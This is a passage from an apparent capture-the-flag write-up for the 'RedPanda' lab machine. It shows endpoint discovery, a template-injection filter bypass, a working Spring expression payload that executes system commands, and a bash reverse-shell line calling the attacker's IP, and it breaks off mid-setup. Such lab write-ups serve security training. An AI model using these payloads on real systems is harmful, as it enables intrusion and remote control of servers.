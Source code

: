 ![](Pasted%20image%2020250604190146.png)

Inspecting the source code again I found out a hidden endpoint called `/stats` with the parameter `?author`:

![](Pasted%20image%2020250604185004.png)

For example, I'll inspect `http://redpanda.htb:8080/stats?author=woodenk`:

![](Pasted%20image%2020250604185202.png)

There is also another functionality to export an XML inside `/export.xml`:

![](Pasted%20image%2020250604185310.png)

## Foothold

I'll test for SSTI inside the `/search` functionality:

![](Pasted%20image%2020250604190625.png)

Doing the basic payload `${7*7}` gives me an error message of "banned characters", so I'll try to bypass that message:
- It works with the payload `*{7*7}`

![](Pasted%20image%2020250604191308.png)

## Weaponization

The website is using Srping Boot, so it may be using Spring Framework. I found this note in [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#spring-framework-java) about it.

## Exploitation

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![](Pasted%20image%2020250604192311.png)

> Got RCE :D

So now I'll try to get a reverse shell:
- First I'll create a script that contains the shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.22/666 0>&1
```

- Now I'll host a python server:
